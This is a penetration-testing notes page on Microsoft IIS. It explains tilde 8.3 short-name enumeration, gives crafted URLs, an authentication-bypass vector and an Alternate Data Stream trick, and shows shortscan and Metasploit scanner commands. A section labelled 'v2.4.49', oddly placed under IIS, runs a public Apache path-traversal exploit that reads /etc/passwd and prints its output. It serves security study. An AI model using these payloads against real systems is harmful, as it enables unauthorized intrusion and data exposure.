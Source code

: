 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# IIS

## 101

**IIS (Internet Information Services)** is a <mark style="background-color:yellow;">web server software made by Microsoft</mark>. It runs on Windows and is used to host websites, web applications, and services. It's commonly used for websites built with `ASP.NET` and other Microsoft technologies.

### Directories

<table data-header-hidden><thead><tr><th width="122"></th><th>Location</th></tr></thead><tbody><tr><td><strong>Webroot</strong></td><td><code>C:\inetpub\wwwroot\</code></td></tr><tr><td><strong>Config</strong></td><td><ul><li><code>%windir%\System32\inetsrv\config\applicationHost.config</code></li><li><code>C:\inetpub\wwwroot\web.config</code></li></ul></td></tr><tr><td><strong>Logs</strong></td><td><code>C:\inetpub\logs\LogFiles\</code></td></tr></tbody></table>

## Attacks

### Tilde Flaw

{% hint style="info" %}
The below information is based on [_Microsoft IIS tilde character “\~” Vulnerability/Feature – Short File/Folder Name Disclosure_](https://soroush.me/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf) paper.
{% endhint %}

#### Dirbusting

In older versions of Microsoft’s IIS, there's a way to discover hidden files and folders using something called **8.3 short file names**. These are legacy DOS-style names (e.g., `SECRET~1.HTM`) automatically created for files like `AcSecret.html`. By using the tilde character (`~`) in a crafted URL, we can <mark style="background-color:yellow;">enumerate or guess these hidden names</mark>, even if the files are protected or not listed publicly.

When a server uses **short file names**, it maps a long filename like `AcSecret.html` to a short one like `ACSECR~1.HTM`. This behavior can be abused via URLs with wildcards (`*`, `?`) and the tilde `~`. For example:

```bash
http://victim.com/acsecr~1.htm/.aspx
```

If the server responds with a `404 (not found)` instead of a `400 (bad request)`, it means the file exists — we've guessed part of a real filename! We can refine the guess:

1. Use `a*~1*/.aspx` to test if a file starts with `a`
2. Keep adjusting letters (`ab*`, `ac*`, etc.) until the server gives clues

The `.aspx` at the end of the URL is used due to a <mark style="background-color:yellow;">behavioral quirk of IIS</mark> that can be exploited to detect existing 8.3 names via different HTTP responses. <mark style="background-color:yellow;">IIS needs a valid extension at the end to route the request correctly</mark>. If the URL ends in something non-executable like `.htm` or no extension, IIS may return a generic response (like a `404` or `403`) instead of a behavior we can differentiate.

Adding `/.aspx` (or `/anything.aspx`) can <mark style="background-color:yellow;">force IIS to treat the path as a route to an</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">`ASP.NET`</mark> <mark style="background-color:yellow;"></mark><mark style="background-color:yellow;">resource</mark>, and might produce different error codes depending on whether the target file/folder actually exists or not. Let’s say we try:

```
http://victim.com/secretfo~1/
```

If it doesn’t exist will respond with `404 Not Found`, but if it exists might still give `404` or `403` depending on settings. On the other hand, if we try:

```
http://victim.com/secretfo~1/.aspx
```

If the folder exists, IIS may return a `403 (Forbidden)` , where if it doesn’t exist, it may return a `404 (Not Found)`.

#### Bypassing Authentication

Even if a folder is protected with login prompts (like Basic or Windows auth), we can still enumerate files using a trick:

```php
/ProtectedFolder::$Index_Allocation/*~1*/.aspx
```

This vector bypasses the login wall and lets us see what's inside **as long as short names exist**.

#### **Alternate Data Streams**

NTFS[^1], the default file system used by modern versions of Windows, has a feature called **ADS** that can help us check if a file exists based on the HTTP responses:

```bash
/filename.html::$data/~1/.aspx
```

A `404` usually means the file is there, just not accessible directly.

#### Tools

The tilde enumeration can be automated using tools such as the [`shortscan`](https://github.com/bitquark/shortscan):or MSF's `iis_shortname_scanner` module:

{% tabs %}
{% tab title="shortscan" %}
```bash
# Single target
$ shortscan http://example.org/

# File with a list of URLs
$ shortscan @urls.txt
```
{% endtab %}

{% tab title="iis_shortname_scanner" %}
{% code overflow="wrap" %}
```bash
# Initial scan
$ sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; run;"

# Targeted scan
sudo msfconsole -q -x "use auxiliary/scanner/http/iis_shortname_scanner; set RHOSTS <target>; set path /dev/dca66d38fd916317687e1390a420c3fc; run;"
```
{% endcode %}
{% endtab %}
{% endtabs %}

## v2.4.49

{% code overflow="wrap" %}
```bash
# Search for public exploits
$ searchsploit Apache httpd 2.4.49
...
--------------------------------------------------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE) | multiple/webapps/50383.sh
--------------------------------------------------------------------------

# Create a file with the target's socket
$ echo "192.168.X.245:8000" > web01_ip.txt

# Exploit the target
$ ./50383.sh web01_ip.txt /etc/passwd
http://192.168.X.245:8000
root:x:0:0:root:/root:/bin/bash
...
miranda:x:1001:1001:Miranda:/home/miranda:/bin/sh
steven:x:1002:1002:Steven:/home/steven:/bin/sh
mark:x:1003:1003:Mark:/home/mark:/bin/sh
anita:x:1004:1004:Anita:/home/anita:/bin/sh
```
{% endcode %}

[^1]: New Technology File System
